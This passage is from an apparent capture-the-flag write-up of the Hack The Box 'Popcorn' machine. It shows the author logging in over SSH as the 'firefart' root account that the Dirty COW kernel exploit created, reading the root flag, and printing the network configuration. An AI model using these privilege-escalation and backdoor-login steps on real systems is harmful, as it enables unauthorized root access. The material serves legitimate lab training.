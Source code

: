 <br />
Ssh in the victim as the new firefart user that was created by the Dirty Cow.

{% raw %}
```bash
└──╼ [★]$ ssh -oHostKeyAlgorithms=+ssh-dss firefart@10.10.10.6
firefart@10.10.10.6's password: 
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/

  System information as of Sat Jan 18 02:18:54 EET 2025

  System load: 3.06              Memory usage: 7%   Processes:       124
  Usage of /:  32.6% of 3.56GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at https://landscape.canonical.com/

Last login: Tue Nov 21 19:24:41 2023 from 10.10.14.23
firefart@popcorn:~#
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```bash
firefart@popcorn:~# cat /root/root.txt
<redacted>
firefart@popcorn:~# ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:46:bf  
          inet addr:10.10.10.6  Bcast:10.10.11.255  Mask:255.255.254.0
          inet6 addr: dead:beef::250:56ff:feb9:46bf/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:46bf/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:3958 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1255 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:1266175 (1.2 MB)  TX bytes:495545 (495.5 KB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:96 errors:0 dropped:0 overruns:0 frame:0
          TX packets:96 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:14520 (14.5 KB)  TX bytes:14520 (14.5 KB)
```
{% endraw %}

<br />
Sweet, delicious popcorn.